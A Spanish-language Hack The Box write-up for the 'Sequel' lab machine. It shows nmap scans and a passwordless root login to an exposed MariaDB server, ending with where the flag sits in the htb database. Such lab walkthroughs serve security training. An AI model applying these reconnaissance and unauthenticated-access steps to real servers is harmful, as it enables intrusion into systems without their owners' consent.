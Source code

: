 # Sequel

🗹 Verificar si el host está activo:

```shell
ping -c 1 10.129.170.118

PING 10.129.170.118 (10.129.170.118) 56(84) bytes of data.
64 bytes from 10.129.170.118: icmp_seq=1 ttl=63 time=1159 ms

--- 10.129.170.118 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1158.846/1158.846/1158.846/0.000 ms
```

> Sistema operativo:  **Linux**

🗹 Identificar puertos abiertos y qué servicios están corriendo:

```shell
sudo nmap -p- -sS --open --min-rate 5000 -n -Pn -vv 10.129.170.118 -oG openPorts

PORT     STATE SERVICE REASON
3306/tcp open  mysql   syn-ack ttl 63
```

🗹 Ejecutar scripts para recopilar información adicional:

```shell
sudo nmap -p 3306 -sCV 10.129.170.118 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-08 11:52 -03
Nmap scan report for 10.129.170.118
Host is up (0.15s latency).

PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 65
|   Capabilities flags: 63486
|   Some Capabilities: Speaks41ProtocolOld, SupportsCompression, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, IgnoreSigpipes, Support41Auth, FoundRows, InteractiveClient, Speaks41ProtocolNew, LongColumnFlag, SupportsTransactions, ODBCClient, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: WpQ!MCGyO[^F$|gp|Aiq
|_  Auth Plugin Name: mysql_native_password
```

| Puerto | Servicio | Versión                         |
| ------ | -------- | ------------------------------- |
| 3306   | mysql    | 5.5.5-10.3.27-MariaDB-0+deb10u1 |

¿Qué es mysql?  
[https://www.mysql.com/](https://www.mysql.com/)

🗹 Acceder a la base de datos **mysql**:

```shell
mysql -u root -h 10.129.170.118 -P 3306

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 78
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.155 sec)

MariaDB [(none)]> use htb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [htb]> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.187 sec)

MariaDB [htb]> select * from config;
```
## Flag

La flag se encuentra en la base de datos **htb** y tabla **config**.
